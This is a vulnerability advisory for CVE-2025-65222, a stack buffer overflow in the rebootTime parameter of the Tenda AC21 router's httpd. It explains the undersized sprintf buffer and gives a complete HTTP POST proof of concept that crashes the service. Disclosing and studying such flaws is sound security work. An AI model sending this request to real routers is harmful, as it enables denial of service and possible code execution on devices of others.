





------
### **CVE-2025-65222**

**Affected Product**: Tenda AC21 Router

**Affected Firmware Versions**:  V16.03.08.16

**Vulnerability Type**: Buffer Overflow Vulnerability

**Organization**: School of Cybersecurity, Northwestern Polytechnical University

**Author**: 邱佳慧 毛伯敏 郭鸿志

------
### **Vulnerability Description**

The latest firmware version V16.03.08.16 of the Tenda AC21 router contains a stack-based buffer overflow vulnerability in the `rebootTime` parameter processed by the `/goform/SetSysAutoRebbotCfg` handler within the `/bin/httpd` binary. A remote attacker can exploit this flaw by sending a crafted HTTP request, potentially resulting in a denial-of-service condition or arbitrary code execution.


---
### **Vulnerability Details**
In the `httpd` binary, the function corresponding to `/goform/SetSysAutoRebbotCfg` is `formSetRebootTimer`.



The function first uses the `webGetVar` function to retrieve the `rebootTime` parameter from `a1` and assigns it to `v2`, and then calls the `sub_497154` function.


In this function the length of the input parameter is not limited. The `v5` buffer is only 8 bytes long, while `v3` and `v4` can each be up to 10 digits (an `int` is typically 32-bit with range `-2147483648` to `2147483647`). Therefore there is a buffer-overflow vulnerability at the `sprintf` call.



---
### **PoC**
```
POST /goform/SetSysAutoRebbotCfg HTTP/1.1
Host: 192.168.254.139
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 30
Origin: http://192.168.254.139
Connection: keep-alive
Priority: u=0
Pragma: no-cache
Cache-Control: no-cache

rebootTime=999999999:999999999
```

After the request was sent, a segmentation fault occurred in the service:


